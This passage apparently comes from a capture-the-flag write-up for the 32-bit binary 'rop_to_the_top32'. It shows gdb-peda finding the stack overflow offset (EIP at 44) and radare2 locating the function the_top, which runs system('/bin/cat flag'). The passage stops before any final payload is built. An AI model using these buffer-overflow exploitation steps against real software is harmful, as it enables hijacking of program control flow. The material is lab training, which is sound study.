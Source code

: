 ```sh
gdb-peda$ r 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'

```
When I run it, I can see the data in my EIP : 0x41414641 ('AFAA'), so I try to find my pattern offset with this command : 
```sh
gdb-peda$ pattern offset AFAA
AFAA found at offset: 44
```
I can see my offset is found at 44.
</br> I can see more information with this command : 
```sh
gdb-peda$ pattern search
Registers contain pattern buffer:
EBP+0 found at offset: 40
EIP+0 found at offset: 44
Registers point to pattern buffer:
[EBX] --> offset 112 - size ~88
[ESP] --> offset 48 - size ~152
Pattern buffer found at:
0xffffd120 : offset    0 - size  200 ($sp + -0x30 [-12 dwords])
0xffffd3f9 : offset    0 - size  200 ($sp + 0x2a9 [170 dwords])
References to pattern buffer found at:
0xffffd114 : 0xffffd3f9 ($sp + -0x3c [-15 dwords])
0xffffd228 : 0xffffd3f9 ($sp + 0xd8 [54 dwords])
```
Now, I open radare2 just to find the address of the function the_top, in the C source I can see open the flag
```c
void the_top()
{

	system("/bin/cat flag");
}
```
```sh
shell$ radare2 rop_to_the_top32 
[0x080483e0]> aaaa
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze len bytes of instructions for references (aar)
[x] Analyze function calls (aac)
[x] Emulate code to find computed references (aae)
[x] Analyze consecutive function (aat)
[x] Constructing a function name for fcn.* and sym.func.* functions (aan)
[x] Type matching analysis for all functions (afta)
[0x080483e0]> afl
0x08048330    3 35           sym._init
0x08048370    1 6            sym.imp.getegid
0x08048380    1 6            sym.imp.strcpy
0x08048390    1 6            sym.imp.puts
0x080483a0    1 6            sym.imp.system
0x080483b0    1 6            sym.imp.__libc_start_main
0x080483c0    1 6            sym.imp.setresgid
0x080483d0    1 6            sub.__gmon_start_3d0
0x080483e0    1 33           entry0
0x08048410    1 4            sym.__x86.get_pc_thunk.bx
0x08048420    4 43           sym.deregister_tm_clones
0x08048450    4 53           sym.register_tm_clones
0x08048490    3 30           sym.__do_global_dtors_aux
0x080484b0    4 43   -> 40   entry1.init
0x080484db    1 25           sym.the_top
0x080484f4    1 43           sym.fun_copy
```